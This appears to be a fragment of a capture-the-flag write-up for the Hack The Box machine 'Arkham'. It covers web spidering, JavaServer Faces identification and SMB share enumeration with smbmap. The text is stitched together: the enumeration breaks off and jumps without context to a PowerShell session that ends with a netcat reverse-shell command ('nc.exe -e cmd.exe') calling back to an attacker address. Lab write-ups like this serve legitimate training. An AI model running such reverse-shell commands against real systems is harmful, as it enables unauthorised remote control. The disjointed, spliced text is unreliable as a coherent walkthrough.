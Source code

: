 Most of the links are not functional, but to make sure I didn't miss anything I spidered the website with Burp:

![](/assets/images/htb-writeup-arkham/spider.png)

The `userSubscribe.faces` file is the *Subscribe* link on the main page.

The `.faces` extension is used by JavaServer Faces

According to Wikipedia:

> JavaServer Faces (JSF) is a Java specification for building component-based user interfaces for web applications[1] and was formalized as a standard through the Java Community Process being part of the Java Platform, Enterprise Edition. It is also a MVC web framework that simplifies construction of user interfaces (UI) for server-based applications by using reusable UI components in a page.

I'll get back to that after the SMB enumeration, this is the way in.

### SMB enumeration

I'll use `smbmap` to quickly scan for accessible shares. I'm using an invalid username here so it connects as guest and not using a null session.
```
# smbmap -u snowscan -H 10.10.10.130
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.130...
[+] IP: 10.10.10.130:445	Name: arkham.htb
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	NO ACCESS
	BatShare                                          	READ ONLY
	C$                                                	NO ACCESS
	IPC$                                              	READ ONLY
	Users                                             	READ ONLY
```

`BatShare` is accessible in read-only mode and there is a single file in there.

```
# smbmap -u snowscan -r BatShare -H 10.10.10.130
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.130...
[+] IP: 10.10.10.130:445	Name: arkham.htb
	Disk                                                  	Permissions
	----                                                  	-----------
	BatShare                                          	READ ONLY
	./
	dr--r--r--                0 Sun Feb  3 08:04:13 2019	.
	dr--r--r--                0 Sun Feb  3 08:04:13 2019	..
	fr--r--r--          4046695 Sun Feb  3 08:04:13 2019	appserver.zip
```


[arkham]: PS C:\Users\Batman\Documents>
[arkham]: PS C:\Users\Batman\Documents> cd ..
[arkham]: PS C:\Users\Batman\Documents> whoami
[arkham]: PS C:\Users\Batman\Documents> cd \users\administrator\desktop
[arkham]: PS C:\Users\Batman\Documents> c:\programdata\nc.exe -e cmd.exe 10.10.14.23 6666